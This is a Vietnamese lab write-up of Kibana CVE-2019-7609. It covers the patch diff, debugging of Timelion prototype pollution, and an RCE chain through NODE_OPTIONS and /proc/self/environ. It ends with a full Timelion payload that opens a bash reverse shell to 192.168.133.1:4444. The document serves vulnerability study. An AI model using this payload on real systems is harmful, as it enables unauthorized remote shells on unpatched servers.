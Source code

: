 ```yaml
---
tag: CVE, debug
---
```

# References
[](https://nvd.nist.gov/vuln/detail/cve-2019-7609)[https://nvd.nist.gov/vuln/detail/cve-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)
[](https://github.com/mpgn/CVE-2019-7609)[https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

# Enumerate
## Cài đặt phiên bản chứa lỗi và search Description
- ./start.sh
``` d
version: "3.0"
services:
  elasticsearch:
    container_name: es-container
    image: docker.elastic.co/elasticsearch/elasticsearch:6.6.0
    environment:
      - xpack.security.enabled=false
      - "discovery.type=single-node"
    networks:
      - es-net
    ports:
      - 9200:9200
  kibana:
    container_name: kb-container
    image: docker.elastic.co/kibana/kibana:6.6.0
    environment:
      - ELASTICSEARCH_HOSTS=http://es-container:9200
    networks:
      - es-net
    depends_on:
      - elasticsearch
    ports:
      - 5601:5601
networks:
  es-net:
    driver: bridge
```
- Description
	- Các phiên bản Kibana trước 5.6.15 và 6.6.1 chứa lỗ hổng thực thi mã tùy ý trong trình hiển thị Timelion. Kẻ tấn công có quyền truy cập vào ứng dụng Timelion có thể gửi yêu cầu cố gắng thực thi mã javascript. Điều này có thể dẫn đến việc kẻ tấn công thực thi các lệnh tùy ý với quyền của quy trình Kibana trên hệ thống máy chủ.
![](./image/Pasted_image_20230306110855.png)
- Theo mô tả ở trên chúng ta sẽ tập trung vào chức năng Timelion
	- Tìm hiểu một chút về các chức năng của Timelion theo link: [](https://www.elastic.co/guide/en/kibana/current/timelion.html)[https://www.elastic.co/guide/en/kibana/current/timelion.html](https://www.elastic.co/guide/en/kibana/current/timelion.html)
	- Ở đây ta thấy chỉ có một entrypoint là khung để gọi các hàm biểu thức (Timelion expression function). Bắt đầu bằng .es hay .elasticsearch sau đó là các hàm để tương tác với dữ liệu được truy vấn từ elastic search.
- Một điều nữa là khi đọc mô tả mình tìm thấy cụm từ prototype pollution. Với lại cũng vừa được anh minh cho làm một dạng này. Vì vậy mình xoáy sâu vào các payload liên quan đến prototype polution..

## Diffcode và tìm trigger
-   Bước tiếp theo ta sẽ diff code để xem có gì đặc sắc ko. Chỉ tập trung vào các source trong path `/src/legacy/core_plugins/timelion/.`
-   Dùng winmerge ta thấy trong đó có một file đã được fix với nội dung như sau:
``` d
diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```
- Vậy là có vẻ liên quan đến hàm props. Nhưng mình vẫn chưa hiểu code lắm. Nên sẽ thử debug
## Setup debug và debug
-   Thú thật vì là lần đầu nên mình mất khoảng 3,4 ngày để tìm cách set up từ port debug, inspect trên chrome đến việc gọi để set breakpoint cũng mất cả buổi chiều. Tuy nhiên mình đã làm được :)) và mình sẽ viết một bài riêng về phần debug js với chrome debugger.
    [Debug JS với Chrome Debugger](https://www.notion.so/Debug-JS-v-i-Chrome-Debugger-39432cb4c8554985b6e2bfdb3603163b)
-   Sau khi đã setup xong chúng ta sẽ đặt breakpoint vào trước đoạn code diff đã tìm được ở trên:
	![](image/Pasted%20image%2020230306140832.png)
-   Ta sẽ thử 1 kịch bản thêm một props vào theo đúng chức năng của timelion
	- Set một prop label có giá trị là minh
	    ![](./image/Pasted%20image%2020230306140439.png)
	- Lúc này các giá trị cụ thể của các biến:
		![](./image/Pasted%20image%2020230306140736.png)
	- Vào vòng while giá trị m sẽ được gán cho p. regex.exec(p) dùng để check giá trị p truyền vào có match với biến regex được được định nghĩa từ trước không.
	- Thêm 1 step nữa ta thấy m được khởi tạo thành một mảng.
			![](./image/Pasted%20image%2020230306140940.png)
	- Phần này liên quan nhiều đến regex. Mình check [regex101.com](http://regex101.com) thì thấy regex được chia thành hai capturing group là **`\\.?([^**.**\\[\\]` và `\\[(\\d+)\\]` và vì ‘label’** đều match với 2 group nên có kết quả 2 phần tử đầu trong mảng là label.
	-   Đoạn trong vòng while có thể hiểu là check phần tử nào trong mảng trống và gán giá trị cho thuộc tính prop.
	-   Sau khi thoát while, phần tử cur[prop] được gán giá trị của data[p] với val = ‘minh’

	⇒ Ta thấy mình hoàn toàn có thể điều khiển được prop của đối tượng cũng như giá trị của prop đó. Cùng với target ban đầu là protocol polution ta nghĩ ngay đến việc chèn **proto**

-   Thử với payload `.es(*).props(label.**proto**.y=minh)` sau khi debug lại ta thấy prop y đã nằm trong prototype
	![](./image/Pasted%20image%2020230306141026.png)
	
⇒ Như vậy là mình đã check được chỗ trigger prototype pollution rồi. Bước tiếp theo là tìm cách RCE

# Find RCE
- Đoạn này khá khó và ban đầu mình ko có idea gì. Mình lên GTFObin để xem có idea gì ko thì thấy hầu hết đều có liên quan đến việc phải require(child_process)
	![](./image/Pasted%20image%2020230306141328.png)
- Nên mình thử debug và nhận thấy mỗi khi click vào plugin nào kibana đều spawn new process:
- Mình bắt tay vào debug child_process thì thấy object options được khởi tạo và trong đó có props `y:’minh’` mà ban đầu mình có gán. Hơn thế prop .env nó còn được gán cho biến env.
	![](./image/Pasted%20image%2020230306141550.png)

- Vậy điều gì xảy ra nếu mình pollution một prop là __proto__.env.y : ‘minh’ ⇒ ta sẽ biến y trở thành một biến môi trường. Giờ tìm cách thực thi biến môi trường với node
## Thực thi payload trong môi trường node
- Ta có thể dùng NODE_OPTION cùng --require để thực hiện điều này:
	![](./image/Pasted%20image%2020230306141630.png)
- Check trên local:
	![](./image/Pasted%20image%2020230306141654.png)
- Oke vấn đề đặt ra nữa là làm sao để upload file js. Đến đây ta lại có giải pháp:
	- Lưu biến trong /proc/self/environ
		![](./image/Pasted%20image%2020230306141721.png)
	- Ta thấy rằng khi gán giá trị cho một biến đồng thời đọc các biến tiến trình ta thấy ngay lúc này biến payload đã được lưu.
	- Vậy ta có thể dùng NODE_OPTIONS để đọc file /proc/self/environ + payload được lưu vào /proc/self/environ ⇒ có thể thực thi được payload
		``` d
		NODE_OPTIONS='--require /proc/self/environ' payload='console.log("minh")//' node
		```
		
## Payload reverse shell
-   Chung quy lại payload của chúng ta cần hội tụ những yếu tố sau:
    -   Sử dụng NODE_OPTIONS --require để thực thi file /proc/self/environ
        `.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    -   Payload reverse shell trong nodejs. Cái này mình kiếm trên GTFObins
        `require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()//`
    -   Nhét payload vào biến bất kỳ để lưu vào /proc/self/environ
        `.props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ')`
    ⇒ `.es(*).props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    
    -   Kết quả:
        - Thực hiện truyền payload vào input trong Timelion
			![](./image/Pasted%20image%2020230306142012.png)
	- Click vào canvas để hệ thống sinh tiến trình con
			![](./image/Pasted%20image%2020230306142056.png)
	- Reverse shell
			![](./image/Pasted%20image%2020230306142119.png)
			